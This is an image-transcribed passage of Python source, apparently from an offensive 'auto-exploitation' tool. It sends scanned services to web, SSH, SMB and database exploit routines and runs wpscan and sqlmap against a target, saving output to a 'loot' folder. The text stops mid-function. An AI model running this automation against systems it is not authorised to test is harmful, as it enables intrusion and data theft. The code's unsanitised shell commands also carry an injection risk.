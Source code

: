 def auto_exploit(target, services):
    print(f"\n{colors.RED}[!] PHASE 2: AUTOMATED EXPLOITATION{colors.END}")
    os.makedirs(exploit_dir, exist_ok=True)
    os.makedirs(loot_dir, exist_ok=True)
    
    exploit_results = {}
    for port, data in services.items():
        service = data["service"].lower()
        vulns = data["vulnerabilities"]
        
        if not vulns:
            continue
            
        print(f"\n{colors.YELLOW}[*] Targeting {service} on port {port}...{colors.END}")
        
        # Web Exploits
        if service in ['http', 'https', 'http-alt']:
            exploit_results[port] = web_exploits(target, port)
        
        # SSH Exploits
        elif service == 'ssh':
            exploit_results[port] = ssh_exploits(target, port)
        
        # SMB Exploits
        elif service == 'microsoft-ds':
            exploit_results[port] = smb_exploits(target, port)
        
        # Database Exploits
        elif service in ['mysql', 'postgresql']:
            exploit_results[port] = db_exploits(target, port, service)
    
    return exploit_results

def web_exploits(target, port):
    results = {}
    url = f"http://{target}:{port}" if port != "80" else f"http://{target}"
    
    # WordPress
    try:
        display_logo("wpscan")
        wp_scan = f"{exploit_dir}/wpscan.txt"
        subprocess.run(f"wpscan --url {url} --no-update -o {wp_scan}", shell=True, timeout=300)
        results['wordpress'] = wp_scan
    except:
        pass
    
    # SQL Injection
    try:
        display_logo("sqlmap")
        sql_out = f"{exploit_dir}/sqlmap"
        subprocess.run(f"sqlmap -u '{url}/?id=1' --batch --output-dir={sql_out}", shell=True, timeout=300)
        results['sqli'] = sql_out
    except:
        pass
    